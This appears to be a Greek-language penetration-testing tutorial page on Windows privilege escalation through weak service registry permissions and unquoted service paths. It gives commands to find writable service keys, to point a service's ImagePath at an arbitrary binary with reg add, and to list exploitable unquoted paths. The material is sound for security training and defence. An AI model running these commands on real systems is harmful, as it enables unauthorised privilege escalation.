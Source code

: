 
Θα πρέπει να ελέγξετε εάν μπορείτε να τροποποιήσετε οποιαδήποτε καταχώρηση υπηρεσίας στο μητρώο.\
Μπορείτε να **ελέγξετε** τα **δικαιώματά** σας σε μια καταχώρηση υπηρεσίας κάνοντας:
```bash
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```
Πρέπει να ελεγχθεί εάν οι **Εξουσιοδοτημένοι Χρήστες** ή **NT AUTHORITY\INTERACTIVE** έχουν δικαιώματα `FullControl`. Εάν ισχύει αυτό, μπορεί να τροποποιηθεί το δυαδικό που εκτελείται από την υπηρεσία.

Για να αλλάξετε τη διαδρομή του εκτελούμενου δυαδικού:
```bash
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```
### Δικαιώματα προσθήκης δεδομένων/υποκαταλόγου στο μητρώο υπηρεσιών

Αν έχετε αυτό το δικαίωμα πάνω σε ένα μητρώο, αυτό σημαίνει ότι **μπορείτε να δημιουργήσετε υποκαταλόγους από αυτόν**. Στην περίπτωση των υπηρεσιών των Windows, αυτό είναι **αρκετό για να εκτελέσετε αυθαίρετο κώδικα**:

{% content-ref url="appenddata-addsubdirectory-permission-over-service-registry.md" %}
[appenddata-addsubdirectory-permission-over-service-registry.md](appenddata-addsubdirectory-permission-over-service-registry.md)
{% endcontent-ref %}

### Μη-περικλειόμενοι διαδρόμοι υπηρεσιών

Αν ο διαδρομός προς ένα εκτελέσιμο αρχείο δεν βρίσκεται μέσα σε εισαγωγικά, τα Windows θα προσπαθήσουν να εκτελέσουν κάθε τερματισμό πριν από ένα κενό.

Για παράδειγμα, για τον διαδρομό _C:\Program Files\Some Folder\Service.exe_ τα Windows θα προσπαθήσουν να εκτελέσουν:
```powershell
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Folder\Service.exe
```
Αναφέρετε όλα τα μη-περικλειόμενα μονοπάτια υπηρεσιών, εξαιρουμένων αυτών που ανήκουν σε ενσωματωμένες υπηρεσίες των Windows:
```bash
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """ #Not only auto services

#Other way
for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
)
)
```
